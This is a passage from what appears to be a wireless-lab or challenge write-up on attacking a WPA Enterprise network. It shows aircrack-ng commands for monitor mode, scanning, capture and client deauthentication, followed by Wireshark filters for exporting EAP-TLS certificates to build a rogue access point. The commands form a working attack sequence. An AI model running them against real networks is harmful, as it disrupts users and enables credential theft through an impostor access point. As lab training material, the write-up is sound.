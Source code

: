 ### Monitor mode
As mentioned in another post I love to work with several terminals open. In this case I start the first terminal and rename it to **Terminal 1 - Monitor**.
Next we have to kill the processes running on the system.
```bash
sudo airmon-ng check kill
```
Now we should put the interface to monitor mode.
```bash
sudo airmon-ng start wlan0
```

### Scan for WiFi networks focus on MGT
A new terminal is opened by my and renamed to **Terminal 2 - Scanning**.
In this terminal we have to identify our target network with the following command.
```bash
sudo airodump-ng wlan0mon --band abg
```
We should take notes of:
- ESSID
- Channel
- BSSID = MAC Address of AP
- AUTH should be MGT => WPA Enterprise
- STATION = MAC Address of client 

### Capture data for handshake and certificate
Next we should collect some data for the certificates. To do this I start a new terminal and rename it to: **Terminal 3 - Capture**.
Now can start a capture on channel 44 for the target network to capture the certificates.
```bash
sudo airodump-ng wlan0mon --band abg -c 44 -w wifi-corp
```

Then we can open a new terminal and rename it to **Terminal 4 - Deauthenticate**. 
This terminal will be used to deauthenticate a client. Every time a client will connect a certificate will be sent.
To deauthenticate workstations we can use the following command.
```bash
sudo aireplay-ng -0 1 -a <MAC-AP> -c <MAC-CLIENT> wlan0mon
```
If airodump has identified a WPA handshake, we should stop recording data.
Then in **Terminal 1 - Monitor** we should disable monitor mode.
```bash
sudo airmon-ng stop wlan0mon
```

### Export certificate from Wireshark
Since we have captured everything we need we can export the certificates to create our own Rogue Access Point.
Open Wireshark to get the certificate(s).
```bash
sudo wireshark wifi-corp.cap
```
Now we should use one of the filters (what we used in previous challenge as well).
```
wlan.bssid==<MAC-address-AP> && eap && tls.handshake.certificate
```
Or simply filter every certificate.
```
tls.handshake.certificate
```
Open the following headers.
```
=> `Extensible Authentication Protocol`
==> `Tansport Laer Security`
====> `TLSv1.2 Record Layer: Handshake Protocol: Certificate`
```